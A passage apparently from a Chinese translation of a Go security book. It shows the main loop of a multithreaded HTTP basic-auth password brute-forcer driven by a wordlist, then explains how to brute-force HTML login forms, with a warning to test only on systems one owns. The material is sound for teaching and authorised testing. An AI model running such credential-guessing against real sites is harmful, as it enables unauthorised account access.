 ```go
func main() { 
   username, pwListFilename, url := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwListFilename) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 2 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testBasicAuth(url, username, password, doneChannel) 

      // If max threads reached, wait for one to finish before continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```

# 强制使用 HTML 登录表单

几乎每个有用户系统的网站都会在网页上提供登录表单。我们可以编写一个程序，反复提交登录表单。本例假设 web 应用程序上没有验证码、速率限制或其他阻止机制。请记住，不要对任何生产站点或任何您不拥有或没有权限的站点执行此攻击。如果您想测试它，我建议您设置一个本地 web 服务器，并且只在本地进行测试。

每个 web 表单都可以为`username`和`password`字段创建不同的名称，因此需要在每次运行时提供这些字段的名称，并且必须特定于目标 URL。

查看源或检查目标表单，从输入元素获取`name`属性，从`form`元素获取目标`action`属性。如果`form`元素中没有提供动作 URL，则默认为当前 URL。另一个重要信息是表单上使用的方法。登录表单应为`POST`，但可能编码不当，使用`GET`方法。一些登录表单使用 JavaScript 提交表单，可能完全绕过标准表单方法。使用这种逻辑的站点需要更多的反向工程来确定最终的 post 目的地是什么以及数据的格式。您可以使用 HTML 代理或浏览器中的网络检查器来查看 XHR 请求。

后面的章节将讨论在`DOM`界面内的 web 爬行和查询，以根据名称或 CSS 选择器查找特定元素，但本章将不讨论尝试自动检测表单字段并识别正确的输入元素。此步骤必须在此处手动完成，但一旦确定，暴力攻击可以自行运行。
